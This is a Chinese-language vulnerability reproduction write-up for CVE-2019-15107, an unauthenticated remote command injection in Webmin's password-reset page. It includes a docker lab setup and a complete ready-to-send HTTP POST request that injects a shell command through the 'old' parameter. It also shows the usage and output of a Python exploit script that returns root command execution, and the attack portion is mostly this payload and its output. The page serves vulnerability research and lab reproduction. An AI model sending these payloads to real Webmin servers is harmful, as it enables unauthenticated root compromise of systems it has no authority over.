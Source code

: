 # （CVE-2019-15107）Webmin 远程命令执行漏洞

> 原文：[http://book.iwonder.run/0day/Webmin/1.html](http://book.iwonder.run/0day/Webmin/1.html)

## 一、漏洞简介

Webmin 是一个用于管理类 Unix 系统的管理配置工具，具有 Web 页面。在其找回密码页面中，存在一处无需权限的命令注入漏洞，通过这个漏洞攻击者即可以执行任意系统命令。

## 二、漏洞影响

Webmin <= 1.920

## 三、复现过程

### 环境搭建

执行如下命令，启动 webmin 1.910：

```
docker-compose up -d 
```

执行完成后，访问[https://0-sec.org:10000，忽略证书后即可看到 webmin 的登录页面。](https://0-sec.org:10000，忽略证书后即可看到 webmin 的登录页面。)

### 复现

参考链接中的数据包是不对的，经过阅读代码可知，只有在发送的 user 参数的值不是已知 Linux 用户的情况下（而参考链接中是 user=root），才会进入到修改/etc/shadow 的地方，触发命令注入漏洞。

发送如下数据包，即可执行命令 id：

```
POST /password_change.cgi HTTP/1.1
Host: 0-sec.org:10000
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Cookie: redirect=1; testing=1; sid=x; sessiontest=1
Referer: https://your-ip:10000/session_login.cgi
Content-Type: application/x-www-form-urlencoded
Content-Length: 60

user=rootxx&pam=&expired=2&old=test|id&new1=test2&new2=test2 
```

![image](img/1edc32ac1c5fc43c9482f10066582eba.png)

### python usage:

python CVE_2019_15107.py [https://0-sec.org:10000](https://0-sec.org:10000) cmd

```
C:\Users\CTF\Desktop>python CVE_2019_15107.py https://10.10.20.166:10000 id

 _______           _______       _______  _______  __     _____       __    _______  __    _______  ______
(  ____ \|\     /|(  ____ \     / ___   )(  __   )/  \   / ___ \     /  \  (  ____ \/  \  (  __   )/ ___  \
| (    \/| )   ( || (    \/     \/   )  || (  )  |\/) ) ( (   ) )    \/) ) | (    \/\/) ) | (  )  |\/   )  )
| |      | |   | || (__             /   )| | /   |  | | ( (___) |      | | | (____    | | | | /   |    /  /
| |      ( (   ) )|  __)          _/   / | (/ /) |  | |  \____  |      | | (_____ \   | | | (/ /) |   /  /
| |       \ \_/ / | (            /   _/  |   / | |  | |       ) |      | |       ) )  | | |   / | |  /  /
| (____/\  \   /  | (____/\     (   (__/\|  (__) |__) (_/\____) )    __) (_/\____) )__) (_|  (__) | /  /
(_______/   \_/   (_______/_____\_______/(_______)\____/\______/_____\____/\______/ \____/(_______) \_/
                          (_____)                              (_____)
                                     python By jas502n

vuln_url= https://0-sec.org:10000/password_change.cgi

Command Result = uid=0(root) gid=0(root) groups=0(root) 
```

## 四、参考链接

> [https://www.pentest.com.tr/exploits/DEFCON-Webmin-1920-Unauthenticated-Remote-Command-Execution.html](https://www.pentest.com.tr/exploits/DEFCON-Webmin-1920-Unauthenticated-Remote-Command-Execution.html) [https://www.exploit-db.com/exploits/47230](https://www.exploit-db.com/exploits/47230) [https://blog.firosolutions.com/exploits/webmin/](https://blog.firosolutions.com/exploits/webmin/)


